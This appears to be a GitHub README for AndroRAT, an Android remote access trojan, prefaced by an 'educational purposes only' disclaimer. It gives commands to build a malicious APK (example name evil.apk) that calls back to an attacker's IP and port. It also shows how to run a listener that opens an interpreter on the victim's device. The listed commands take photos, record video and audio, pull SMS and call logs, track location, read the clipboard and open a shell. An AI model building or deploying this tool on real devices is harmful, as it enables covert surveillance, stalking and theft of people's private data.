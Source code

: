 **Disclaimer** : This software is meant for educational purposes only. I don't feel responsible for any malicious use of the app.
# AndroRAT 
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
<a href='https://github.com/karma9874' target='_blank'><img src "https://img.shields.io/github/followers/karma9874?label=Follow&style=social"></a>
<a href='https://twitter.com/karma9874' target='_blank'><img src "https://img.shields.io/twitter/follow/karma9874?label=Follow&style=social"></a>

AndroRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. Androrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### AndroRAT will work on device from Android 4.0 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> AndroRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Screenshots

![AndroRAT](https://github.com/karma9874/AndroRAT/blob/master/Screenshots/5.jpg "AndroRAT in action")

## Prerequisites
AndroRAT requires Python (> 3.6) and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/karma9874/AndroRAT.git
```
## Usage
### Available Modes
* `--build` - for building the android apk 
* `--shell` - getting an interactive shell of the device
### `build` mode
```
Usage:
  python androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
```
Or you can manually build the apk by importing [Android Code]() folder to Android Studio and changing the IP address and port number in [config.java]() file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device
Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
## Examples

* To build the apk:
```python androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/6.JPG" width="600"/>
</p>
------------------------------------------------------------------------------------------------------------------------------
* Some interpreter Commands 
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/1.JPG" width="600"/>
</p>
------------------------------------------------------------------------------------------------------------------------------

## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](https://github.com/karma9874/AndroRAT/blob/master/LICENSE) for more information.


